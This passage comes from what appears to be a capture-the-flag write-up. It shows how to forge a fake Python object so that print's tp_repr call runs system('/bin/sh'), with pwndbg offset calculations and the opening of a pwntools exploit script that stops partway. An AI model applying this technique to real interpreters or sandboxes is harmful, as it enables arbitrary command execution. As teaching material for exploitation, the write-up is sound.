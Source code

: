 ```c
```

However, in regards to having `system` call specifically with the "/bin/sh" parameter, it is important to note that, as shown before, the print function executes `tp_repr` with the parameter being our `PyObject`.

```c
...
res = (*Py_TYPE(v)->tp_repr)(v); //goal is to have this be system("/bin/sh") instead
...
```

What this means is that:
1. In order to get `system("/bin/sh")` executing, we will need to set the beginning of the struct to the binsh string, so that when our `PyObject` is treated like a `char*` the `system` function will interpret it as running with parameter "/bin/sh". The first field is `ob_refcnt`, so this is the field we'll be modifying.
2. When Python is in the process of executing the print, `ob_refcnt` will be incremented (as it is an integer, not a string). This means that we will need to, as our actual string, use `\x2ebin/sh\x00`. The increment will turn 0x2e into 0x2f (a forward slash), and the null terminator at the end is, obviously, because it is a C string.

Once we have appropriately written our parameter in `ob_refcnt`, we'll then need to figure out what to set `ob_type` to.

We'll first need to get the offset from the object type and the `tp_repr` field:

```as
pwndbg> p PyDict_Type
$2 = {   
	...
	tp_repr = 0x5555555e11c6 <dict_repr>, //the repr function
	...

pwndbg> x/32xg &PyDict_Type
...
0x555555924370 <PyDict_Type+80>:        0x0000000000000000      0x00005555555e11c6 //the repr function is here, 88 (0x58) bytes from the start
...
```

Knowing this, we now know that our pointer should be `addrof(obj) + 16 - 0x58`.
* The address of the object, since we are writing to it
* 16 bytes after, since we wrote `ob_refcnt` (8) and `ob_type` (8)
* 0x58 before, so `ob_type+0x58`, to get `tp_repr`, becomes `ma_used-0x58+0x58`, or just `ma_used`

After we write our pointer, we set the `ma_used` field in the struct to the address of `system`.

### The Exploit Script

```python3 {script_name="exploit.py"}
from pwn import *

#version must be 3.10.12
with process(["dbg_py/python", "fakeobj.py"]) as p:
	#read both the object memory address, and the libc system address
	read_given = lambda: p.recvline().split(b" = ")[1].decode("ascii")[2:]
	pyobj_addr = int(read_given(), 16)
	system = int(read_given(), 16)

	#information
	log.info("Object Address: "+hex(pyobj_addr))
	log.info("System(): "+hex(system))

	#memory address for ob_type in PyObject
	pytypeobj = pyobj_addr+16-88

	#modify struct fields
```